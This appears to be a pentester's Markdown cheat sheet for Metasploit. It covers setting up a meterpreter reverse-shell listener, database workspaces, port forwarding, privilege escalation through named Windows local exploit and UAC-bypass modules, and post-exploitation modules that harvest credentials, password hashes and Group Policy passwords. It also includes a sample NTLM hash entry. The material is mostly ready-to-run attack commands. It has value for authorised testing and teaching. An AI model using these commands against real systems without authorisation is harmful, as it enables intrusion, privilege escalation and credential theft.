 # Metasploit:

* start metasploit and postgres services
* start metasploit without splash: msfconsole -q
* first time
  ```
  msfdb init
  msfdb start
  ```

### Multi Handler

* Start multi listener:
  ```
  msf > use exploit/multi/handler
  msf exploit(handler) >
  msf exploit(handler) > set payload php/meterpreter/reverse_tcp
  payload => php/meterpreter/reverse_tcpexploitn
  msf exploit(handler) > set LHOST 192.168.56.103
  LHOST => 192.168.56.103
  msf exploit(handler) > set LPORT 443
  LPORT => 443
  msf exploit(handler) > exploit
  ```

### General
* Organise related data by using a workspace
  [Using the Database in Metasploit](https://www.offensive-security.com/metasploit-unleashed/using-databases/)
  ```
  msf > help workspace
  Usage:
    workspace                  List workspaces
    workspace -v               List workspaces verbosely
    workspace [name]           Switch workspace
    workspace -a [name] ...    Add workspace(s)
    workspace -d [name] ...    Delete workspace(s)
    workspace -D               Delete all workspaces
    workspace -r <old> <new>   Rename workspace
    workspace -h               Show this help information
  ```

* Import nmap XML file
  ```
  msf > db_import [nmap_file_name].xml
  ```

* Check the details in a current database (workspace)
  [Using the Database in Metasploit](https://www.offensive-security.com/metasploit-unleashed/using-databases/)
  ```
  msf > hosts
  msf > hosts -c address,os_name
  msf > hosts -c address,os_name -S Linux   # Show IP address, OS name and only list Linux
  msf > services -u                         # List services that are up
  msf > services -s http -c port 172.16.194.134  
  msf> services -u -S web                   # Show services that are up and contains web
  msf> services -p 443 -u -S apache -R      # Set RHOSTS, all hosts that have open port 443 and running "Apache" service
  msf > creds                               # List all
  msf > creds -a 172.16.194.134 -p 445 -u Administrator -P 7bf4f254b222bb24aad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::   # Add when found during post-exploitation
  ```

  Help
  ```
  > services -h

  Usage: services [-h] [-u] [-a] [-r <proto>] [-p <port1,port2>] [-s <name1,name2>] [-o <filename>] [addr1 addr2 ...]

    -a,--add          Add the services instead of searching
    -d,--delete       Delete the services instead of searching
    -c <col1,col2>    Only show the given columns
    -h,--help         Show this help information
    -s <name1,name2>  Search for a list of service names
    -p <port1,port2>  Search for a list of ports
    -r <protocol>     Only show [tcp|udp] services
    -u,--up           Only show services which are up
    -o <file>         Send output to a file in csv format
    -O <column>       Order rows by specified column number
    -R,--rhosts       Set RHOSTS from the results of the search
    -S,--search       Search string to filter by

  Available columns: created_at, info, name, port, proto, state, updated_at
  ```

### Meterpreter

* See **Post Exploitation** [BELOW]

* Port forward using meterpreter
  ```
  portfwd add -l <attacker port> -p <victim port> -r <victim ip>
  portfwd add -l 3306 -p 3306 -r 192.168.1.101
  ```

### Post Exploitation

* Meterpreter, get SYSTEM
  ```
  getsystem
  ```

* Local exploitation, meterpreter:
  ```
  > background            #meterpreter session to background
  [*] Backgrounding session 1...

  > use exploit/windows/local/
  ...snip...
  use exploit/windows/local/bypassuac
  use exploit/windows/local/bypassuac_injection
  ...snip...
  use exploit/windows/local/ms10_015_kitrap0d
  use exploit/windows/local/ms10_092_schelevator
  use exploit/windows/local/ms11_080_afdjoinleaf
  use exploit/windows/local/ms13_005_hwnd_broadcast
  use exploit/windows/local/ms13_081_track_popup_menu
  ...snip...
  ```


* Get Windows Hotfixes and Patches
  ```
  post/windows/gather/enum_patches
  ```

* Get unattended installation credentials
  ```
  post/windows/gather/enum_unattend
  ```

* Get Windows Gather Group Policy Preference Saved Passwords
  ```
  post/windows/gather/credentials/gpp
  ```
* Others
  ```
  use exploit/windows/local/service_permissions

  post/windows/gather/credentials/gpp

  run post/windows/gather/credential_collector

  run post/multi/recon/local_exploit_suggester

  run post/windows/gather/enum_shares

  run post/windows/gather/enum_snmp

  run post/windows/gather/enum_applications

  run post/windows/gather/enum_logged_on_users

  run post/windows/gather/checkvm
  ```
https://www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/

Get passwords
http://www.hackingarticles.in/post-exploitation-remote-windows-password/

* Scraper
```
> run scraper

> run winenum
```

* Hashdump

* Credential collector
```
meterpreter > run post/windows/gather/credentials/credential_collector
```

* Applications
```
meterpreter > run post/windows/gather/enum_applications
```
